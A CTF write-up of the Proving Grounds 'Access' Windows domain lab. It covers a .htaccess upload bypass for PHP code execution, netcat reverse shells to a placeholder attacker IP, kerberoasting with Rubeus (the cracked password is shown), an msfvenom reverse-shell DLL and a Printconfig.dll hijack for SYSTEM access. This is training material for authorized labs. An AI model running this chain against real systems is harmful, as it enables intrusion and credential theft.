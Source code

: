 ```yaml
---
title: "Proving grounds Play: Access"
layout: post
date: 2023-08-16 12:00
categories: writeup
---
```


Proving grounds Practice - Access CTF writeup.

## Walkthough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/Access/yt.png)](https://youtu.be/h1Br5umYxwc)

## Nmap

```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-16 07:12:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Fuzzing

### Directories

```text
/uploads
/assets
/icons
/forms
```                                

## File Upload Vulnerability

![Upload 01](/assets/images/CTF/Proving_Grounds/Access/up1.png)

Upload a `.htaccess` file to overwrite the file upload configuration in the apache.

**Content of .htacess file**

```text
AddType application/x-httpd-php .evil
```

Upload the php remote code execution code to the server with extension as `rce.evil`

![Upload 02](/assets/images/CTF/Proving_Grounds/Access/up2.png)

### RCE

![RCE 01](/assets/images/CTF/Proving_Grounds/Access/rce1.png)

- Upload netcat windows binary to the server.
- Obtain reverse shell by executing netcat command.

![RCE 02](/assets/images/CTF/Proving_Grounds/Access/rce2.png)

- Transfer PowerView.ps1 to the attacking machine.

**Extract Users Information**

```text
-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt                   
svc_apache               svc_mssql                
The command completed successfully.
```

## Kerberos Abuse

The user `svc_mssql` has Service Principal Name, hence kerberoasting takes place.

```text
serviceprincipalname          : MSSQLSvc/DC.access.offsec
```

[Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Run as below to obtain NTLM Hash.

```powershell
PS C:\xampp\tmp> .\Rubeus.exe kerberoast /nowrap
```

Copy the hash and crack it using john.

**Crack the hash**

![Crackthehash 02](/assets/images/CTF/Proving_Grounds/Access/crackhash.png)

Transfer [Invoke-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) to the attacking machine. The script will allow us to run commands as certain users in the system using the username and password.

Obtain revese shell for user `svc_mssql` by using the invoke command to trigger the netcat reverse shell.

```powershell
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\nc.exe <IP> 4444 -e cmd.exe'
```

![Revshell 01](/assets/images/CTF/Proving_Grounds/Access/revshell1.png)

## Privilege Escalation

**Abuse SeChangeNotifyPrivilege.**

```powershell
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```

Bypass traverse checking allows us to perform seManageVolumeAbuse by performing dll hijacking.

[SeManageVolumeAbuse](https://github.com/CsEnox/SeManageVolumeExploit)

Transfer the binary to the remote machine and run as `svc_mssql` user.

```powershell
PS C:\xampp\tmp> .\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 916
DONE 
```

Create a dll file with windows reverse shell.

```sh
msfvenom -f dll -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=9090 -o Printconfig.dll
```

Transfer the dll file to the attacking machine and overwrite the file to the below location.

`C:\Windows\system32\spool\drivers\x64\3\Printconfig.dll`

![Copy](/assets/images/CTF/Proving_Grounds/Access/copy.png)

Switch to powershell and use the below trigger to obtain root.

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
[More...](https://github.com/CsEnox/SeManageVolumeExploit)

![trigger](/assets/images/CTF/Proving_Grounds/Access/trigger.png)

**Root shell Obtained**

![trigger](/assets/images/CTF/Proving_Grounds/Access/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).